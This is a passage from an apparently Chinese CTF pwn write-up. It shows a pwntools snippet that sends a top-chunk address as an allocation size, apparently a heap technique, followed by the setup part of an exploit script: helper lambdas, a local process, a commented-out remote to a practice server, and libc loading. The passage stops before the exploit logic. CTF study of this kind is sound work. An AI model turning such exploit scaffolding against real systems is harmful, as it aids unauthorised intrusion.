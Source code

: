 ```plain
p.recvuntil("2:puts\n")
p.sendline('1')
p.recvuntil("size\n")
p.sendline(str(top_chunk_addr))
```

[![](assets/1701612371-2d51694248704a9c8bf05617e1f93d9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145857-bff60664-17dc-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

```